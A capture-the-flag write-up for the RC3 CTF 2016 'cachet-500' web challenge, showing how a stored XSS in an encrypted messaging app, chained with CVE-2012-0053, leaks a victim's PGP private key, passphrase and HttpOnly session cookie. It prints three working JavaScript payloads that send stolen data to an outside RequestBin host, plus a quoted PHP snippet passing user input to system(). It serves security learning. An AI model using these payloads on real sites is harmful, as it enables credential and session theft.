

# [RC3 CTF 2016](https://ctf.rc3.club/): [cachet-500](https://github.com/RITC3/RC3CTF-2016/tree/master/Web/Web-500)

**Category:** Web
**Points:** 500
**Solves:** 4
**Description:**

> We need you. Things have been crazy with all the leaks lately.
> Apparently somebody gave one of our clients a tip that Julian Assange
> has acquired some devastating data about the US government. Our client
> has asked us to get this data for them. They're saying they can sell this
> data and makes lots of money of off it or something. Doesn't matter,
> they're paying us as long as we can get the data for them. The only tip
> we have is that Julian has been using this new security and privacy
> focused messaging app called Cachet to communicate with the source of the
> leaked data. He's supposedly taken a liking to it and uses it pretty
> frequently. Our interns looked at it but haven't had any luck,
> so we need your expertise on this one.
> 
> http://54.172.225.153:80
>
> author:bigshebang
>


## writeup

This is an awesome, realistic web challenge presenting multiple,
seemingly tiny vulnerabilities leading to serious private data leak
in a secure, encrypted messaging web application (called "Cachet").

The challenge has been solved in the team
[OpenToAll](https://ctftime.org/team/9135) ([finished 2nd](http://paste.party/rc3.txt)
at the competition).

According to the challenge description, Julian Assange is using the
messaging app Cachet frequently. The target is the content of one of
his secure, encrypted message.


### exploring the web application

The Cachet messaging application is (was) available at http://54.172.225.153:80.
Free registration is available, after registering all of the functions are available
and can be tested.


The application can be accessed by authenticated, registered users. Each
user have a username and a password (for authentication), a PIN code
(for opening messages) and a PGP keypair. The application implements PGP
encrypted messaging for the registered users. The public key is stored on
the server, but the password-protected private key is not, it is kept
in secret.

Using the user search feature of the application and searching for the keyword
"assange", the profile (with public key) and sending message to Mr. Assange
is available.

For reading a message the user have to do this:

1. Open one of the message list ("Read" or "Unread")
2. Click on the message to read
3. Enter the PIN
4. After entering the valid PIN, the encrypted message is displayed with input boxes
for the private PGP key and pass. Decrypting is done on client side (by Javascript)
by pressing the decrypt button using the given private key.

So this is a common secure method, the server does not store the private keys,
decryption is done completely on client side. ;)

Authorization is binded to the PHPSESSID cookie (of course on server side).

Note, that in order to reach the target, not just the secret encrypted message
from Mr. Assange's box must be obtained somehow, but Mr. Assange's
private key and private key pass is also needed.


### CSRF attack

Knowing (from the challenge description) that Mr. Assange uses the
Cachet messaging app frequently, it is not unrealistic trying to
attack not just the web application but Mr. Assange indirectly.

After some testing and/or source code analysis an XSS vulnerability
can be found in the encrypted message on the message reading/decryption page.
In more detail: the application trusts the encrypted message without
validation when including it on the reading/decryption page
and it can be manipulated easily when sending.

This way an attacker can send a malicious message to the victim
by manipulating the sending function of the application. With a
well-crafted malicious message the attacker can (partially)
take control over the victim and perform unwanted actions
(e.g. by injecting malicious Javascript code).

This is the classical
[Cross-Site Request Forgery attack](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)).

Because the injection point is on the message reading page
where the user enters his/her private key and private key pass
in order to decrypt the message, it is an instant threat
to the private key and pass (which is not stored on
the server for higher security(!)).


### Stealing the private key

Knowing the above XSS vulnerability, stealing Mr. Assange's private key
and private key pass is almost trivial.

The required CSRF attack is sending a malicious message to Mr. Assange
(and hope that Mr. Assange opens that message and tries to decrypt it).
The payload of the malicious message should (e.g.) override the
decryption Javascript function `decryptMessage` on the reading/decryption
page and send the entered private key and private key pass via a Javascript
`XMLHttpRequest` call to the attacker.

Some practical info: for CTF challenges (but not for real attacks! :) )
using online services is preferable and very comfortable.
For HTTP listener (to catch the injected `XMLHttpRequest` from Mr. Assange)
[RequestBin](http://requestb.in/),
for URL Encode
[url-encode-decode.com](http://www.url-encode-decode.com/) was used.

Here is the Javascript payload which steals and transmits the private
key and private key pass to the previously created http://requestb.in/1kwhkwc1 listener:

```javascript
<script>
function decryptMessage() {
    var privkey = document.getElementById("privkey").value.trim();
    var user_pass = document.getElementById("msg-subject").value;

    var xhrSend = new XMLHttpRequest();
    xhrSend.open("POST", "http://requestb.in/1kwhkwc1", true);
    params  = 'privKey=' + encodeURI(window.btoa(privkey));
    params += 'user_pass=' + user_pass;
    xhrSend.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    xhrSend.send(params);
};
</script>
```

Sending this XSS payload to Mr. Assange can be done using the web application
and by replacing the content of the `encMessage` variable (e.g. with
[Burp Suite Free](https://portswigger.net/burp/download.html))
when sending the message via `POST /send.php`



Short time after the payload has been sent, Mr. Assange opens the message,
tries to decrypt it, and triggers the payload which sends the private key
and private key pass to the above RequestBin which can be (could be) inspected here:
http://requestb.in/1kwhkwc1?inspect

After base64 decoding the stolen data can be read. Mr. Assange's private
key is [here](./assange_privkey.asc) in the repo, the password is: `4ll_H41L_w1k1L34K$-03071971`.

Note, that in a real-world scenario the payload should be appended to a
normal encrypted message (with Mr. Assange's [public key](./assange_pubkey.asc)
which is available in the web application) in order to not
be conspicuous and make it undetectable (for an average user).

Also note, that this attack works silently in the background which makes
it very serious: the private key and the private key pass can be stolen
without noticed by the user!

Now it is time to get the encrypted message.


### Issues getting the encrypted message

Now we may think that the hardest part has been solved: the private
key with the pass is available, now only the encryped message is needed
(which is, btw, available on the server).

So it seems to be trivial getting the encrypted message: implementing
another CSRF attack let us read the secret message in Mr. Assange's inbox
using appropriate `XMLHttpRequest` calls.

First, get the (read) messages list using this payload (delivery is
the same process as above):

```javascript
<script>
var xhrLeak = new XMLHttpRequest();
xhrLeak.open("GET", "read.php", true);

xhrLeak.addEventListener('load', function() {
    if(xhrLeak.status == 200) {
	var xhrSend = new XMLHttpRequest();
	xhrSend.open("POST", "http://requestb.in/1kwhkwc1", true);
	params  = 'leak=' + encodeURI(window.btoa(xhrLeak.responseText));
	xhrSend.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
	xhrSend.send(params);
    }
}, false);

xhrLeak.send();
</script>
```

Nice, the results are two messages:

| id | Username  | Subject                                               | Sent                |
|----|-----------|-------------------------------------------------------|---------------------|
| 1  | wikileaks | account should be all ready sir, pin is your birthday | 2016-11-18 09:17:08 |
| 2  | darkarmy  | the data                                              | 2016-11-18 09:17:08 |

The first is a serious info leak (never forget that the subject is not encrypted even in PGP mails ;) ),
so we know the PIN: according to the password (and the information found elsewhere) the PIN should be
`03071971`. And the second mail from darkarmy should be the target.

Unfortunately, opening a message (even with the right PIN) can not be done using CSRF attack:
the server always returns "invalid PIN" response. After some debugging (using and attacking owned
accounts) it is clear that the application at the message opening / PIN validating stage implements
a working CSRF protection mechanism: the `Referer` HTTP header is checked, it invalidates
every attempts from URLs containing mismatching message IDs. Because the `Referer` can not
be changed by Javascript (according to security considerations), this attack method will not
work here.

Another trivial CSRF attack should be to steal the `PHPSESSID` session cookie. Probably
it may worked in the old times before Firefox 3, but now. The `PHPSESSID` cookie has the
[HttpOnly](https://www.owasp.org/index.php/HttpOnly) flag set,
so it can not be accessed by Javascript (according to security considerations, also).


### More recon

In order to get the encrypted message more reconnaissance work needed. Reading `robots.txt`
may reveal important information and it is a common thing in the early stages while exploring
web applications. The contents of `robots.txt`:

```
User-agent: *
Disallow: /dev
Disallow: /admin
Disallow: /setup
Disallow: /
```

The `/dev` folder shall be the most interesting. It shows just an "It works! please login"
text but the source code contains valuable information (in the commented out section):

```html
<html>
<h1>It works!</h1>
<p>please login</p>

<!--
<?php
/* security team said our old prod system was too old? we made it our dev environment (port 8000) and installed the latest and greatest for prod.
 * auth still shared between dev and prod to make QA easier.
 */
//
$username = "admin";
$password = "admin551";
require_once("dev.php");
require_once("keys.php");

//prototyping login
$post_user = $_POST['user'];
$post_pass = $_POST['pass'];

//security team said we need to hash passwords before storing them
$cmd = "echo 'salt" . $post_pass . "' | md5sum";
$hash_pass = system($cmd);

//do DB calls here
//TODO: finish this
$db = mysql("192.168.3.30", $username, $password);
?>
-->

</html>
```

The most (and only) valuable info here is that there should exist a dev environment
on port 8000 with outdated environment. (The commented out code is not live
anywhere on the system, so there is no such RCE exploit available. :) )

Opening the dev pages at http://54.172.225.153:8000 shows a static (pure html)
clone of the site, with some minor (but not useful and vulnerable) additions.

What does it mean that the system on this dev environment is "too old"?
Let us see a HTTP header:

```
$ curl -I http://54.172.225.153:8000
HTTP/1.1 200 OK
Date: Sun, 20 Nov 2016 23:27:05 GMT
Server: Apache/2.2.21 (Unix)
Access-Control-Allow-Origin: http://54.172.225.153
Access-Control-Allow-Credentials: true
Last-Modified: Fri, 18 Nov 2016 08:00:11 GMT
ETag: "80d64-1919-5418eb202e180"
Accept-Ranges: bytes
Content-Length: 6425
Content-Type: text/html
```

This system runs an outdated Apache/2.2.21 and the `Access-Control-Allow-*`
headers state that authentication is possible using `XMLHttpRequest`
originating from not just the dev but the prod site (because they
share the same IP).


### CVE-2012-0053

Maybe checking the
[vulnerabilites of the running Apache version](https://www.cvedetails.com/vulnerability-list/vendor_id-45/product_id-66/version_id-115228/Apache-Http-Server-2.2.21.html)
on the dev site should be useful (e.g. on [CVE Details](https://www.cvedetails.com)).

It seems to be that [CVE-2012-0053](https://www.cvedetails.com/cve/CVE-2012-0053/) allows us to
leak HttpOnly cookies via bad request responses:

> protocol.c in the Apache HTTP Server 2.2.x through 2.2.21 does not properly restrict header information during construction
> of Bad Request (aka 400) error documents, which allows remote attackers to obtain the values of HTTPOnly cookies via vectors
> involving a (1) long or (2) malformed header in conjunction with crafted web script.

It is not unusual, that in certain circumstances a vulnerability with a lower score
causes serious impact. This is the situation here.
[CVE-2012-0053](https://www.cvedetails.com/cve/CVE-2012-0053/) is an "Obtain Information"
type vulnerability scored just 4.3 with just partial confidentiality impact, with no access gained.
However, in these circumstances, combining this with the above CSRF will lead to
compromising Mr. Assange's account.


### leaking the auth cookie

So the CSRF payload delivered to Mr. Assange should do the following in order to leak the
`PHPSESSID` HttpOnly cookie:

1. Send a specially crafted (bad) request to the :8000 dev server with credentials by
`XMLHttpRequest` which triggers CVE-2012-0053. Note, that sending credentials (the `PHPSESSID` cookie) is
allowed because the `Access-Control-Allow-*` headers. The vulnerable dev server should respond by including
the HttpOnly cookies.
3. Send the (possibly) obtained `PHPSESSID` cookie to the above RequestBin.

A [working script](http://downloads.securityfocus.com/vulnerabilities/exploits/51706.js)
exploiting CVE-2012-0053 can be found on [SecurityFocus](http://www.securityfocus.com/)
([source from GitHub](https://gist.github.com/pilate/1955a1c28324d4724b7b/7fe51f2a66c1d4a40a736540b3ad3fde02b7fb08)).

Here is the adaptation for this situation:

```javascript
<script>

function setCookies (good) {
    // Construct string for cookie value
    var str = "";
    for (var i=0; i< 819; i++) {
        str += "x";
    }
    // Set cookies
    for (i = 0; i < 10; i++) {
        // Expire evil cookie
        if (good) {
            var cookie = "xss"+i+"=;expires="+new Date(+new Date()-1).toUTCString()+"; path=/;";
        }
        // Set evil cookie
        else {
            var cookie = "xss"+i+"="+str+";path=/";
        }
        document.cookie = cookie;
    }
}

setCookies();

var xhrCgi = new XMLHttpRequest();
xhrCgi.open("GET", "http://54.172.225.153:8000/", true);
xhrCgi.withCredentials = true;

xhrCgi.onload = function () {

    var cookie_dict = {};
    // Only react on 400 status
    if (xhrCgi.readyState === 4 && xhrCgi.status === 400) {
        // Replace newlines and match <pre> content
        var content = xhrCgi.responseText.replace(/\r|\n/g,'').match(/<pre>(.+)<\/pre>/);
        if (content.length) {
            // Remove Cookie: prefix
            content = content[1].replace("Cookie: ", "");
            var cookies = content.replace(/xss\d=x+;?/g, '').split(/;/g);
            // Add cookies to object
            for (var i=0; i<cookies.length; i++) {
                var s_c = cookies[i].split('=',2);
                cookie_dict[s_c[0]] = s_c[1];
            }
        }
        // Unset malicious cookies
        setCookies(true);
        data = JSON.stringify(cookie_dict);
	
	var xhrSend = new XMLHttpRequest();
	xhrSend.open("POST", "http://requestb.in/1kwhkwc1", true);
	params  = 'cgitext=' + encodeURI(window.btoa(data));
	xhrSend.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
	xhrSend.send(params);
    }
};

xhrCgi.send();

</script>
```

Delivering this CSRF payload to Mr. Assange (using the same method above), the auth cookie
arrives to RequestBin after a short time: `{"PHPSESSID":"apncej8ne5rhdoidt6aqvgut47"}`.

Using this cookie we can login as Assange and using the birthday as PIN (`03071971`)
the encrypted message from "darkarmy" can be opened.

Using the previously stolen private key and private key pass the message can be decrypted
instantly:

> mr assange. love ur work. here's a link to download the zip of the leak: https://drive.google.com/open?id=0B3HqJpgroLZxYlZMTFhNRlR5ZEU. the password to open the file is RC3-2016-12409901.
>
> we'll be in touch.


Game over: Mr. Assange used a secure encrypted messaging app in vain, he has been hacked. ;)

So the password to open the [leak zip](./leak.zip) (matching the flag format) is the flag: `RC3-2016-12409901`.

Feel free to browse the secret documents [here](./leak) in the repo. ;)


## lessons learnt

* an XSS vulnerability in a secure, encrypted messaging app can lead to break everything
* CSRF attacks could be very serious, sometimes more serious than compromising the server
* abandoned development environment is always a security risk
* CVE scoring can be misleading: even lower scores may mean high impact
